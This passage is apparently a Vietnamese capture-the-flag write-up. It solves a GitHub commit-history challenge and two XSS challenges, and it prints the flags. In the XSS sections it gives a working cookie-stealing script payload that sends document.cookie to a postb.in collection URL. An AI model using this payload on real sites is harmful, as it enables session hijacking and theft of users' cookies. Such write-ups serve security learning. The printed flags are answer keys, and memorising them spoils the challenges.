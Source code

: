 Bước 2: Sau đó ta tìm string Flag{ và ta thấy được flag

> ![image](https://user-images.githubusercontent.com/90112096/140451568-f899cc3d-a05f-4440-a174-dcaee813e66c.png)

**Flag{7ef31e58bd4086e294b4d700c721f35f}**

### Bài 8: GITHUB
Được biết tới như một kho lưu trữ mã nguồn khổng lồ của thế giới, và những thay đổi trong quá khứ đều được lưu lại và khôi phục. Hãy kiếm tìm những bí mật mà Gà con lon ton vô tình để lại.

> https://github.com/.....

### ***Cách giải:***

Bước 1: Đọc đề thì ta cần lưu ý đến "Những bí mật mà Gà con lon ton" mà con gà ở đây là nói về cookiehanhoan nên ta thử tìm theo đường dẫn 

> https://github.com/cookiehanhoan

Bước 2: "Những thay đổi trong quá khứ đều được lưu lại và khôi phục" sau khi truy cập vào Repositories/HoangTuEch, ta vào phần lịch sử commit và đọc từng cái, sau đó ta tìm thấy được flag

> ![image](https://user-images.githubusercontent.com/90112096/140452009-4e0f03dc-e2f7-464f-b072-9411797a787f.png)

**Flag{no_where_to_hide_gitleaks}**

## WEB EXPLOITATION
### Bài 1: XSS
Các cậu còn nhớ sự kiện Livestream lần đầu tiên của Hazy , có một số bạn đã nghịch ngợm làm bay màu cái Chatbox. Đố bạn cho bay màu chal12 này đấy.

> http://chal12.web.letspentest.org/

### ***Cách giải:***

Bước 1: Đầu tiên ta thử để chắc rằng trang này bị xss : <script>alert("lmaoXD")</script>

> ![image](https://user-images.githubusercontent.com/90112096/140524591-ea0ae444-443f-4f41-9019-c6942c778aae.png)

Bước 2: Việc của ta bây giờ là đi chôm cookie :3, mình xài payload sau:

```<script>document.write("<img src='your_link/"+document.cookie+"'>");</script>```

Bước 3: Để nhận request, mình sử dụng trang postb.in

```<script>document.write("<img src='https://postb.in/1636121993357-5448687351308/"+document.cookie+"'>");</script>```

> ![image](https://user-images.githubusercontent.com/90112096/140525437-6402649e-bbb5-4e67-8bc3-37553086b207.png)

Bước 4: Sau đấy mình chỉ cần đợi flag gửi về thôi keke :>> 

> ![image](https://user-images.githubusercontent.com/90112096/140525471-e3c7cc1c-874d-4099-abc5-c12330dba8af.png)

**FLAG{10c802c9c6afc26769764b5b986d708a}**

### Bài 2: XSS FILTER
Có vẻ như Chall12 là quá dễ với các bạn, thế còn lọc bớt một số kí tự thì sao :)

> http://chal15.web.letspentest.org/

### ***Cách giải:***

Tại bài này ta có thể sử dụng lại payload ở trên nên cách làm tương tự thôi hehe :33333
```